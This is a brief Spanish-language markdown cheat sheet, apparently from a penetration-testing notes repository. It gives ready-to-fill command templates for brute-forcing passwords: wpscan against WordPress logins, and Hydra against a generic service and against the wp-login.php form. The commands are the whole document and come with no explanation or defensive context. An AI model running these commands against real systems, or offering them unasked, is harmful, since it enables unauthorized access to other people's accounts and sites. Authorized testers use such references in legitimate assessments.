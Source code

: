 # FUERZA BRUTA

### Fuerza Bruta en Wordpress

```wpscan --url <URL> -U <USUARIO> -P <DICCIONARIO> --password-attack wp-login -t 64```

### Fuerza Bruta con Hydra

```hydra -l <USUARIO> -P </RUTA/DICCIONARIO> <IP o DNS> <SERVICIO>```

```hydra -l <USUARIO> -P </RUTA/DICCIONARIO> <HTTPS://url> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^:S=302``` 
